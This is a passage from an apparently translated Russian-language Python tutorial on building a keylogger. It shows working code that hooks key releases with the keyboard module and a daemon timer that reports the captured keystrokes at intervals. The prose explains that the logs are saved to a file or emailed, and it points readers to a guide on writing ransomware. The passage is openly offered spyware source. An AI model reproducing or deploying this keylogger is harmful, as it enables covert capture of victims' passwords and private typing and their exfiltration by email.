         timer = Timer(interval=self.interval, function=self.report)
        # set the thread as daemon (dies when main thread die)
        timer.daemon = True
        # start the timer
        timer.start()
Узнайте также: Как создать программу-вымогатель в Python.

Итак, мы проверяем, получила ли что-то переменная self.log (пользователь нажал что-то в этот период). Если это так, сообщите об этом, либо сохранив его в локальный файл, либо отправив его по электронной почте.

Затем мы передали self.interval (в этом уроке я установил его на 1 минуту или 60 секунд, не стесняйтесь настраивать его в соответствии с вашими потребностями) и функцию self.report() в класс Timer(), а затем вызовем метод start() после того, как мы установим его в качестве потока демона.

Таким образом, метод, который мы только что реализовали, отправляет нажатия клавиш по электронной почте или сохраняет их в локальный файл (на основе report_method) и вызывает себя рекурсивно каждую секунду self.interval в отдельных потоках.

Определим метод, вызывающий метод on_release():

    def start(self):
        # record the start datetime
        self.start_dt = datetime.now()
        # start the keylogger
        keyboard.on_release(callback=self.callback)
        # start reporting the keylogs
        self.report()
        # make a simple message
        print(f"{datetime.now()} - Started keylogger")
        # block the current thread, wait until CTRL+C is pressed
        keyboard.wait()
Дополнительные сведения об использовании модуля клавиатуры см. в этом учебнике.

Этот метод start() — это то, что мы будем использовать вне класса, так как это основной метод; мы используем метод keyboard.on_release() для передачи ранее определенного метода callback().

После этого мы вызываем наш метод self.report(), который выполняется в отдельном потоке, и, наконец, мы используем метод wait() из модуля клавиатуры, чтобы заблокировать текущий поток, чтобы мы могли выйти из программы с помощью CTRL + C.

Мы в основном закончили с классом Keylogger, все, что нам нужно сделать сейчас, это создать экземпляр этого класса, который мы только что создали:
